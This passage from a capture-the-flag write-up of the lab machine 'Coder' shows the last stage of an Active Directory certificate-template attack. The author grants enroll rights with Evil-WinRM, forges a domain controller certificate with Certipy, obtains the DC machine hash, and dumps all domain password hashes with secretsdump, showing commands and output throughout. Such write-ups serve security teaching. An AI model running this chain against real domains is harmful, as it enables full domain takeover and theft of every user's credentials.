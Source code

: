 #### Enroll with Template

Now I'll enroll that computer object in the template:



    *Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName oxdf -type allow -identity 'coder\0xdf_PC$' -enroll



#### Get Certificate

Now I'll use [Certipy](https://github.com/ly4k/Certipy) to get the
certificate for the `dc01.coder.htb` machine:



    oxdf@hacky$ certipy req -u 0xdf_PC\$@dc01.coder.htb -p '0xdf0xdf' -ca CODER-DC01-CA -template oxdf -target dc01.coder.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 21
    [*] Got certificate with DNS Host Name 'DC01.coder.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'dc01.pfx'



For the final step to work, I'll need my clock synced with Coder,
running `sudo rdate -n dc01.coder.htb`. Then use that certificate to
authenticate and get the hash for the legit DC01 machine:



    oxdf@hacky$ certipy auth -pfx dc01.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: dc01$@coder.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'dc01.ccache'
    [*] Trying to retrieve NT hash for 'dc01$'
    [*] Got hash for 'dc01$@coder.htb': aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94



#### Dump AD Hashes

Now that I have the NTLM hash for the DC01 machine account, I'll ask it
to give me all the hashes for the domain with `secretsdump`:


    oxdf@hacky$ secretsdump.py coder.htb/dc01\$@dc01.coder.htb -hashes :56dc040d21ac40b33206ce0c2f164f94 -dc-ip dc01.coder.htb
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:26000ce1f6ca4029ec5d3a95631e797c:::
    coder.htb\e.black:1106:aad3b435b51404eeaad3b435b51404ee:e1b96bbb66a073787a3310b5a956200d:::
    coder.htb\c.cage:1107:aad3b435b51404eeaad3b435b51404ee:3ab6e9f70dbc0d19623be042d224b993:::
    coder.htb\j.briggs:1108:aad3b435b51404eeaad3b435b51404ee:e38976c0b20e3e41e9c62da792115a33:::
    coder.htb\l.kang:1109:aad3b435b51404eeaad3b435b51404ee:b8aba4878e4777864b292731ac88b4cd:::
    coder.htb\s.blade:1110:aad3b435b51404eeaad3b435b51404ee:4e4a79beed7d042627d0a7b10f5d008a:::
    coder.htb\svc_teamcity:5101:aad3b435b51404eeaad3b435b51404ee:4c5a6890e09834a6834dbf7a76bf20cb:::
    DC01$:1000:aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94:::
    [*] Kerberos keys grabbed